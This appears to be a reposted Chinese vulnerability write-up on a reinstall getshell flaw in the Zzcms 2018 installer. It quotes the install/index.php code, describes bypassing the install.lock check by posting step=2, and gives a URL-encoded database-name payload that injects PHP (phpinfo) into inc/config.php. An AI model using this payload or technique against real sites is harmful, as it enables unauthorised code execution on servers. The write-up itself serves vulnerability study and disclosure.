





# Zzcms 2018 最新版重装getshell

> 原文：[https://www.zhihuifly.com/t/topic/3311](https://www.zhihuifly.com/t/topic/3311)

# Zzcms 2018 最新版重装getshell

## 一、漏洞简介

源码信息：Zzcms 2018

问题文件： \zzcms\install\index.php

漏洞类型：重装getshell

站点地址：http://www.zzcms.net/

## 二、漏洞影响

Zzcms2018

## 三、复现过程

### 0x01攻击分析

在文件\ zzcms \ install \ index.php文件的第9-10行中$ _POST使用了提取变量注册的方法进行变量的初始化。

```
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1; 
```

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step_1.php，有install.lock，就不能重装，所以我们这里直接POST step = 2绕过

```
<?php
switch($step) {
        case '1'://协议
                include 'step_'.$step.'.php';
        break;
        case '2'://环境
                $pass = true;
                $PHP_VERSION = PHP_VERSION;
                if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                        $php_pass = $pass = false;
                } else {
                        $php_pass = true;
                }
                $PHP_MYSQL = '';
                if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                        $PHP_MYSQL = '支持';
                        $mysql_pass = true;
                } else {
                        $PHP_MYSQL = '不支持';
                        $mysql_pass = $pass = false;
                }
        $PHP_GD = '';
        if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
        if(function_exists('imagegif')) $PHP_GD .= ' gif';
        if(function_exists('imagepng')) $PHP_GD .= ' png';
                if($PHP_GD) {
                        $gd_pass = true;
                } else {
                        $gd_pass = false;
                }
                $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                $url_pass = $PHP_URL ? true : false;
                include 'step_'.$step.'.php';
        break;
        case '3'://查目录属性
                include 'step_'.$step.'.php';
        break;
        case '4'://建数据库
                include 'step_'.$step.'.php';
        break;
        case '5'://安装进度
                function dexit($msg) {
                        echo '<script>alert("'.$msg.'");window.history.back();</script>';
                        exit;
                }

```
 $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
            if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
            $db_name or dexit('请填写数据库名');
            if(!select_db($db_name)) {
                    if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
            }
            $url=str_replace("'",'',$url);
            //保存配置文件
            $fp="../inc/config.php";
            $f = fopen($fp,'r');
            $str = fread($f,filesize($fp));
            fclose($f);
            $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
            $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
            $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
            $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
            $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
            $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
            $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
            $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
            fputs($f,$str);//把替换后的内容写入文件
            fclose($f);
            //创建数据
            include 'step_'.$step.'.php';
            break;
    case '6'://安装成功
            include 'step_'.$step.'.php';
    break; 
``` `}` 
```



```
<?php
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$_SESSION['token']= $token; 
?> 
```

step_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤= 2，一步一步偶。

从上面的代码文中知道$ url = str_replace（“'”，“，$ url）; 把单引号替换为空了，然后的fputs写INC / config.php的配置文件中所以这里通过$ DB_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f 本机创建zzcms');phpinfo();//的数据库


因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f



成功写入到配置文件





